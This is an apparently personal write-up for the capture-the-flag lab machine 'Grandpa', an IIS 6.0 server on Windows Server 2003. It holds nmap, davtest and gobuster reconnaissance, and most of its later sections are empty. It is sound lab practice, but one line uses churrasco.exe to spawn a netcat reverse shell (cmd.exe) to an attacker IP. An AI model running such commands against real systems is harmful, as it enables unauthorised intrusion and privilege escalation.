



# Summary


## about target

tip:  10.129.160.37

hostname: Grandpa

Difficulty: Easy


## about attack

+ same to granny, but not able to put(webdav); use exploit to get shell(bof)
+ privesc also  the same to granny.


**attack note**


```bash
grandpa  10.129.160.37

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-ntlm-info:
|   Target_Name: GRANPA
|   NetBIOS_Domain_Name: GRANPA
|   NetBIOS_Computer_Name: GRANPA
|   DNS_Domain_Name: granpa
|   DNS_Computer_Name: granpa
|_  Product_Version: 5.2.3790
| http-webdav-scan:
|   WebDAV type: Unknown
|   Server Date: Sun, 25 Sep 2022 01:43:58 GMT
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Server Type: Microsoft-IIS/6.0
|_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|_http-title: Under Construction
|_http-server-header: Microsoft-IIS/6.0
| http-methods:
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH


windows version: https://www.gaijin.at/en/infos/windows-version-numbers
Product_Version: 5.2.3790 
Windows Server 2003, Service Pack 2  

# http enum

## davtest， no upload
davtest -url http://$tip

## gobuster
gobuster dir -u http://$tip -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40 -o gobuster.txt


.\churrasco.exe -d "c:\temp\nc.exe -e cmd.exe 10.10.14.15 4444"
```


# Enumeration

## nmap scan

light scan

```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip


```


Heavy scan

```bash
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip


```


# Exploitation





# Privesc


## Post Enumeration


## System





## proof

```bash


```



